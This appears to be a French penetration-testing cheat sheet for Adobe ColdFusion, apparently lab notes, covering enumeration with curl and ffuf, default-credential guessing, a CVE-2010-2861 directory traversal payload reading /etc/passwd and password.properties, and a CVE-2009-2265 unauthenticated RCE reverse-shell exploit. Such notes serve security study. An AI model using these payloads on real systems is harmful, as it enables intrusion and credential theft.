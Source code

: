 
> [!TIP]
> Basé sur Java
> 
> Utilise le ColdFusion Markup Language (similaire au HTLML) pour développer des applications web.
> 

|**Benefits**|**Description**|
|---|---|
|`Developing data-driven web applications`|ColdFusion allows developers to build rich, responsive web applications easily. It offers session management, form handling, debugging, and more features. ColdFusion allows you to leverage your existing knowledge of the language and combines it with advanced features to help you build robust web applications quickly.|
|`Integrating with databases`|ColdFusion easily integrates with databases such as Oracle, SQL Server, and MySQL. ColdFusion provides advanced database connectivity and is designed to make it easy to retrieve, manipulate, and view data from a database and the web.|
|`Simplifying web content management`|One of the primary goals of ColdFusion is to streamline web content management. The platform offers dynamic HTML generation and simplifies form creation, URL rewriting, file uploading, and handling of large forms. Furthermore, ColdFusion also supports AJAX by automatically handling the serialisation and deserialisation of AJAX-enabled components.|
|`Performance`|ColdFusion is designed to be highly performant and is optimised for low latency and high throughput. It can handle a large number of simultaneous requests while maintaining a high level of performance.|
|`Collaboration`|ColdFusion offers features that allow developers to work together on projects in real-time. This includes code sharing, debugging, version control, and more. This allows for faster and more efficient development, reduced time-to-market and quicker delivery of projects.|

- [ ] [[#ENUMERATION MANUELLE]]
- [ ] [[#EXPLOITATION]]


---

# ENUMERATION MANUELLE

Ports par défaut

|Port Number|Protocol|Description|
|---|---|---|
|80|HTTP|Used for non-secure HTTP communication between the web server and web browser.|
|443|HTTPS|Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.|
|1935|RPC|Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device.|
|25|SMTP|Simple Mail Transfer Protocol (SMTP) is used for sending email messages.|
|8500|SSL|Used for server communication via Secure Socket Layer (SSL).|
|5500|Server Monitor|Used for remote administration of the ColdFusion server.|

## Identifier ColdFusion

Coldfusion présent dans le header de la réponse

```bash
curl <url> --head
```

Extensions de pages en .cfm / .cfc

```bash
ffuf -u http://127.0.0.1:8080/FUZZ.cfm -w /usr/share/wordlists/dirb/big.txt
```

```bash
ffuf -u http://127.0.0.1:8080/FUZZ.cfc -w /usr/share/wordlists/dirb/big.txt
```

## Page de Login (indique la version egalement)

```bash
curl http://test.htb:8500/CFIDE/administrator/
```

---

# EXPLOITATION


[[#Tester Weak credentials / Credential stuffing]]
[[#CVEs]]
[[#Direcory Traversal ( < 9.0.2 )]]
[[#Unauthenticated RCE (ver 8)]]


## Tester Weak credentials / Credential stuffing

admin:admin, admin:password....
### Credential Stuffing (Liste de default creds)

Resources:

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
https://github.com/ihebski/DefaultCreds-cheat-sheet/tree/main



## CVEs

```bash
searchsploit coldfusion
```

## Direcory Traversal ( < 9.0.2 )

**CVE-2010-2861**

paramètre 'locale' sur ces endpoints:

- `CFIDE/administrator/settings/mappings.cfm`
- `logging/settings.cfm`
- `datasources/index.cfm`
- `j2eepackaging/editarchive.cfm`
- `CFIDE/administrator/enter.cfm`

ex:
```http
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

Exploit publique:

```bash
searchsploit -m multiple/remote/14641.py
```

Lire le contenu de password.properties (contient des mots de passes chiffrés pour des services)

```shell
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```


## Unauthenticated RCE (ver 8)

**CVE-2009-2265**

```http
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

Reverse Shell

```shell
searchsploit -m 50057
```

Modifier l'exploit

```python
if __name__ == '__main__':
    # Define some information
    lhost = 'ip_listener' # 
    lport = port_listener # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

Exploit

```shell
python3 50057.py 
```